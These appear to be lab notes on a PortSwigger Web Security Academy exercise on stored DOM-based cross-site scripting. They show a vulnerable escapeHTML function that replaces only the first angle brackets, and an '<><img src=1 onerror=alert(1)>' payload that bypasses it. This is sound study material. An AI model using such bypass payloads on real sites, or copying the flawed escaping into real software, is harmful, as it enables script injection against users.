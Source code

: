 ```
function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

From <https://0a72002203a61604802435c7005700c8.web-security-academy.net/resources/js/loadCommentsWithVulnerableEscapeHtml.js> 

We can escape out of this
```
<><img src=1 onerror=alert(1)>
```

From <https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored> 
